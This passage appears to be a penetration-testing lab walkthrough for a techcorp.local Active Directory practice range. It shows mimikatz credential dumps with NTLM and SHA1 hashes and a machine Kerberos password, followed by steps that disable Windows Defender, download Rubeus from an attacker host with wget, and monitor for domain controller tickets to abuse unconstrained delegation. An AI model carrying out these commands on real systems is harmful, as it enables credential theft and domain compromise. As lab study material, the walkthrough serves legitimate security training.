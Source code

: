 ```powershell

<snip>

mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 41921 (00000000:0000a3c1)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 12/27/2022 2:39:04 AM
SID               : S-1-5-90-0-1
        msv :
         [00000003] Primary
         * Username : US-WEB$
         * Domain   : US
         * NTLM     : 892ca1e8d4343c652646b59b51779929
         * SHA1     : 29d0e9804b830218aa1f7a1460874a29471cac60
        tspkg :
        wdigest :
         * Username : US-WEB$
         * Domain   : US
         * Password : (null)
        kerberos :
         * Username : US-WEB$
         * Domain   : us.techcorp.local
         * Password : 0I7.p^^to%AE? sq!.[\!lUUaBYiU^Ew-t^^@@&'Sp!ykctIPCm,<n2;rR$*y1ThkKCMjzP 7zmH'V)CTjF9@;R<nU ^Cu^ -STMQ0W_Q]_fA(6?;oUX$%>?
        ssp :
        credman :

<snip>
```
# 12. Permissions of `us-web$`
- From [[2. Lab Walkthrough/1st Forest (techcorp.local)/1. us.techcorp.local/1. Domain Enumeration]] we discovered that `US-WEB` has KUD privileges. We can abuse this to escalate our privileges to DA.
- We will transfer **Rubeus** to the server that is configured for KUD in order to monitor for tickets.
- After that, we will coerce the DC to authenticate to the server set for KUD in order to capture the machine account's ticket.
- On `US-WEB`:
```powershell
PS C:\Auditor> winrs -r:us-web.us.techcorp.local powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\webmaster> Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -DisableRealtimeMonitoring $true
cPS C:\Users\webmaster>cd C:\Windows\Tasks
cd C:\Windows\Tasks
PS C:\Windows\Tasks> wget http://192.168.100.57/Rubeus.exe -O Rubeus.exe
wget http://192.168.100.57/Rubeus.exe -O Rubeus.exe
PS C:\Windows\Tasks> .\Rubeus.exe monitor /interval:5 /targetuser:us-dc$
.\Rubeus.exe monitor /interval:5 /targetuser:us-dc$

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/
```